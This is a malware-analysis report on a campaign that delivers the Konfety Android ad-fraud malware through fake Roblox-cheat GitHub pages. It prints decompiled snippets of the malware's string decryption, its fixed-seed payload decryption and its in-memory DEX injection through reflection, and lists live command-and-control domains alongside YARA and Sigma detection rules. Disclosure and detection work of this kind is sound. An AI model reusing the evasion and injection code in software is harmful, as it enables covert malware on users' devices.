


BoxStrike researchers have identified and documented a distribution operation, which we track as Operation EvilDoor, that delivers the previously-documented Android ad-fraud family Konfety to victims searching for Roblox game cheats, executors, and exploits. The operation has been active since 2024 through YouTube video descriptions and, in the months preceding this report, expanded to a second, more scalable channel: a network of disposable GitHub accounts publishing search-optimized, AI-authored repository pages themed around the Roblox game DOORS and similar titles.
A sample obtained directly from this GitHub network was decompiled and analyzed both statically and dynamically by BoxStrike. The sample matches the Konfety family with high confidence: it smuggles a fully encrypted, second-stage DEX payload inside a booby-trapped ZIP asset and loads it directly into the app's classloader in memory at runtime, a technique that defeats static scanning entirely. Two independent public sandboxes corroborated this behavior executing live, down to the exact obfuscated class names appearing as dropped files on disk.
This report's contribution is not the discovery of a new malware family — Konfety is already tracked by the wider security community — but the documentation of a previously unreported distribution vector for it, together with a full architectural breakdown of why the malware is built the way it is, not only what it does.
The fake Roblox cheat marketplace behind Operation EvilDoor has run since 2024, primarily through YouTube video descriptions promising working executors and exploits, with download links placed below gameplay footage. This channel remains active in parallel with the newer one described in this report.
Roughly three months before this report's publication, the same operators (or a closely related group reusing the same playbook) opened a second channel on GitHub: dozens of new accounts began publishing long-form, professionally formatted repository pages for tools with names like "Doors Script Hub," "Rooms and Doors Toolkit," and various generically-named "executors," each ultimately funneling the visitor to a malicious download.
| Period | Activity | Confidence |
|---|---|---|
| 2024 – present | Fake cheat marketplace operating via YouTube video descriptions | reported |
| ~3 months prior to report | Expansion to a GitHub-hosted network of disposable accounts and repositories | reported, structurally corroborated |
| Ongoing | Payload family observed through the GitHub channel has shifted over time; earlier waves are associated with Lumma Stealer, more recent ones with Konfety | reported |
| This report | First public documentation connecting Konfety to this specific GitHub distribution network | confirmed |
github.com or *.github.io at all, since the domain is core developer infrastructure. Moving distribution to GitHub buys the operators a second channel that benefits from that borrowed trust, free HTTPS hosting via GitHub Pages, and a search-engine-friendly surface (repository READMEs are indexed and rank well for the exact search terms — "roblox executor," "doors script" — that the victim population is already typing into Google or an AI assistant).
Across the accounts reviewed, Operation EvilDoor follows a consistent four-stage chain from lure to payload execution.

The victim discovers a repository while searching for a Roblox executor or script, either directly on GitHub or via a search engine that has indexed the README's keyword-dense content. The repository itself contains no functional tool — its only job is to look credible for exactly as long as it takes the visitor to click through to a download page hosted on the same account's GitHub Pages subdomain. That page is engineered to look like an official GitHub-branded download portal and drives the visitor toward executing the downloaded file with minimal friction.
23 GitHub accounts and repositories associated with Operation EvilDoor were identified by BoxStrike:
Independent, read-only inspection of a representative account (doorsrbx/doors) confirmed the following, which the naming pattern above suggests is shared across the set:
LICENSE.md, index.html), three commits, zero stars, forks, or watchers.The linked GitHub Pages site presents as "Download Ready — Secure Archive." It imitates GitHub's own site chrome, displays a green "Verified" badge alongside unearned "100% Safe / Protected / Encrypted" labels, and runs an auto-starting countdown timer straight into a download action.
The Install.apk sample analyzed in this report was obtained directly from this distribution chain by the BoxStrike research team, then decompiled and submitted for sandbox analysis. reported by the researcher
The APK bundles a full set of legitimate, functioning ad-mediation SDKs: AppLovin, Unity Ads, Chartboost, Vungle, Pangle, BigoAds, Fyber, AdMob, Meta Audience Network, and Firebase. This is the layer a cursory static scan sees, and it is convincing enough on its own that the sample presents as an unremarkable ad-monetized app.
Execution begins in the app's Application subclass:
public final class BLAcKr extends Application {
private final Fqb wbCfMcQ = new Fqb();
protected void attachBaseContext(Context context) {
ILHwmX = context;
this.wbCfMcQ.run();
super.attachBaseContext(...);
}
}
run() routes through an eight-method call chain interleaved with calls that produce no useful output — System.nanoTime(), Locale.getDefault(), Environment.getRootDirectory():
run → ILHwmX → tNF → tBKiQ → pOEXilH → cKVP → NfxL → ZyKCx → [payload logic]
Every reflection target — class names, method names, the payload's asset filename — is stored XOR-encrypted, keyed by a custom reimplementation of java.util.Random's LCG algorithm, seeded by each string's own length. Reproducing the algorithm recovers the plaintext:
"g}~e\u007fk7cgad`j$JfzQwivPjkp" -> "dalvik.system.DexPathList" "d\u007fmv_yZ\u007fdwmeJ~oXcbydezf" -> "makeInMemoryDexElements" "ws`nwn<|fc}\u007fn DmeuIyvY}mkoGm\u007fot}" -> "dalvik.system.BaseDexClassLoader" "rh`Sfihja" -> "getAssets" "zwt|" -> "open" "Ejzqa" -> "Mbqct" "xciaft\u007f" -> "classes"
java.util.Random's algorithm by hand, rather than calling the real class, is a deliberate choice aimed at static-signature evasion: many mobile security products flag the literal bytecode signature of constructing a java.util.Random instance and calling nextInt/nextBytes near a Class.forName call, since that combination is a known indicator of runtime string decryption. By hand-rolling an identical algorithm under an obfuscated class name, the malware achieves the same cryptographic result while avoiding the specific API call pattern that a signature-based detector is likely to be watching for. It is a functionally pointless but detection-relevant distinction — the seed constant it depends on is, as it happens, exactly the kind of durable artifact that survives this evasion (see §11).
assets/Mbqct is a genuinely valid ZIP file containing harmless auto-generated resource-ID stub classes, including a com/nextg/... package path — likely a remnant of the app's original, pre-repackaging identity. The ZIP's official End-Of-Central-Directory record places its true end at byte 146,739 of a 2,395,655-byte file, leaving 2,248,916 bytes appended after the archive's stated end, invisible to standard archive tools.
At runtime, the app reads the full file, XOR-decrypts it against a keystream from a fixed-seed java.util.Random(4339707483826144610L), skips a pseudo-randomized offset, and parses the remainder as a second ZIP stream:
Random random = new Random(4339707483826144610L);
for (int i = 0; i < iAvailable; i++) {
bArr[i] = (byte) (bArr[i] ^ iNextInt);
}
int offset = new Random(4339707483826144610L).nextInt(307201) + 204800;
ZipInputStream zip = new ZipInputStream(
new ByteArrayInputStream(bArr, offset, iAvailable - offset));
Reproducing this algorithm confirms a valid ZIP local header at decrypted offset 207,084, containing a single entry: classes.dex — a complete, independent Android program never visible anywhere in the outer APK.
classes.dex is spliced directly into the running app's ClassLoader via reflection, without ever touching disk as a standalone file:
Method m = Class.forName("dalvik.system.BaseDexClassLoader")
.getDeclaredMethod("makeInMemoryDexElements", ...);
m.setAccessible(true);
Object newElements = m.invoke(null, dexBytes, null);
// merged into pathList.dexElements via reflection

Running the sample through Triage and ANY.RUN confirmed every static finding and surfaced additional behavior only visible at execution time.
| Static finding | Dynamic confirmation |
|---|---|
Encrypted secondary DEX in assets/Mbqct | Anonymous-DexFile@2055833589.jar (5.8MB) loaded at runtime — MITRE T1407 |
Obfuscated helper classes ILHwmX, wbCfMcQ | Identically named files dropped under /data/data/<pkg>/files/ |
| String-encrypted C2 logic | Cleartext traffic: GET http://push.razkondronging.com/register?uid=<uuid> |
CONNECTIVITY_CHANGE/WIFI_STATE_CHANGED receiver | Live registerReceiver call + MCC/network-operator queries |
FOREGROUND_SERVICE_DATA_SYNC permission | Flagged: "Abuses foreground service for persistence" |
| (not visible statically) | IClipboard.addPrimaryClipChangedListener — runtime clipboard monitoring |
| Bundled legitimate ad SDKs | Live ad-fraud redirect chains (topofpopstar.com, ldl1.com) and a remote-config fetch (one.confbesttop.xyz/v2/client-config) |
addPrimaryClipChangedListener requires no special manifest permission and adds negligible code — while opening a second, unrelated monetization path: any cryptocurrency wallet address, password, or one-time code a victim copies during normal phone use is harvested for free alongside the ad-fraud functionality. This is best read as opportunistic scope creep rather than a core design goal of the family, but it is precisely why sandbox vendors tag this sample with both infostealer and adware labels rather than one or the other.
Both sandboxes independently tag the sample Konfety. The technique matches published research on the family closely enough to treat attribution as high-confidence.
What this report adds: prior public research documents Konfety's distribution via third-party app stores and package-name-spoofed "evil twin" apps. This is, to BoxStrike's knowledge, the first documentation of the same payload family being funneled through a GitHub-hosted, Roblox-cheat-themed lure network — an additional distribution vector for an already-tracked family, not a new family.
| Phase | Technique | ID |
|---|---|---|
| Initial Access | Deliver Malicious App via Other Means | T1476 |
| Defense Evasion | Masquerade as Legitimate Application | T1444 |
| Defense Evasion | Obfuscated Files or Information | T1406 |
| Defense Evasion / Execution | Download New Code at Runtime | T1407 |
| Persistence | Foreground Persistence | T1541 |
| Persistence | Broadcast Receivers | T1624.001 |
| Discovery | System Network Connections Discovery | T1421 |
| Discovery | System Network Configuration Discovery | T1422 |
| Collection | Clipboard Data | T1414 |
| Impact | Transmitted Data Manipulation | T1641.001 |
No passive DNS, WHOIS registration-date, or hosting-provider pivot was performed for this report; these domains are provided as first-order network indicators only.
cdntechone.com, an anti-ad-fraud detection platform, is most plausibly explained as the operators monitoring their own traffic's detection status rather than any legitimate integration. This is a recurring pattern in ad-fraud tooling generally: operators build feedback loops against the very detection systems designed to stop them, using the results to decide when to rotate infrastructure or throttle behavior in a given ad network before their traffic is blocklisted.
Confidence: low.low confidence No technical evidence in this analysis ties the operation to a specific named threat actor or nation-state.
This assessment should be treated as a starting hypothesis for further collection, not a conclusion. BoxStrike does not attribute this activity to any nation state; our use of the term "operation" refers to a coordinated distribution and monetization effort, not a state-directed campaign.
rule Konfety_EvilDoor_HiddenPayload
{
meta:
description = "Detects Konfety-family Android droppers using the EvilDoor technique: XOR-encrypted secondary DEX appended after a decoy ZIP asset's EOCD record"
family = "Konfety"
operation = "EvilDoor"
author = "BoxStrike - Eneshan Erdogan Karaca"
tlp = "CLEAR"
strings:
// Fixed PRNG seed (4339707483826144610) used to key the XOR keystream
$seed_le = { 62 C5 8F BA F6 BC 39 3C }
$seed_be = { 3C 39 BC F6 BA 8F C5 62 }
// Obfuscated class/package identifiers observed in this sample family
$cls1 = "viewcb/lej" ascii
$cls2 = "ILHwmX" ascii
$cls3 = "wbCfMcQ" ascii
$cls4 = "BLAcKr" ascii
// Reflection targets used for in-memory dex injection
$api1 = "makeInMemoryDexElements" ascii
$api2 = "dalvik/system/DexPathList" ascii
$eocd = { 50 4B 05 06 }
condition:
uint32(0) == 0x04034b50
and (any of ($seed_le, $seed_be)
or (2 of ($cls1, $cls2, $cls3, $cls4))
or any of ($api1, $api2))
and for any i in (1..#eocd):
(filesize - @eocd[i] > 200)
}
Note: the class-name strings are sample-specific to this obfuscator run and will rotate across builds — the seed-constant and trailing-data conditions are the more durable detection surface, precisely because of the build-tooling tradeoff discussed in §5.4.
title: Konfety-style in-memory DEX injection followed by ad-fraud C2 beacon
id: 8f2b1a6e-3c7d-4e91-9a2f-evildoor001
status: experimental
logsource:
category: mobile_process_creation
product: android
detection:
dex_load:
EventID: 'dex_load'
FileName|contains: 'Anonymous-DexFile'
network_beacon:
EventID: 'network_connection'
DestinationHostname|contains:
- 'razkondronging.com'
- 'confbesttop.xyz'
condition: dex_load and network_beacon
falsepositives:
- Legitimate apps using MultiDex or dynamic feature delivery
level: high
Operation EvilDoor is best understood not as a new threat, but as an existing, well-documented ad-fraud family — Konfety — being fed through a new, low-cost distribution surface that trades on the borrowed trust of GitHub and the specific vulnerability profile of a young, cheat-seeking audience already primed to disable their own protections. The technical sophistication observed in the payload (in-memory DEX injection, custom string encryption, steganographic asset abuse) is real and non-trivial, but it exists in service of a financially motivated ad-fraud and opportunistic data-collection operation, not a targeted intrusion.
BoxStrike will continue monitoring this distribution network and the Konfety family's evolution, and will publish updates as new samples, infrastructure, or distribution vectors are identified.
BoxStrike is an independent cybersecurity research group focused on tracking malware distribution networks, mobile threats, and the social-engineering infrastructure that delivers them. This report was researched and authored by Eneshan Erdoğan Karaca, lead researcher at BoxStrike.
This report is published under TLP:CLEAR and may be shared without restriction.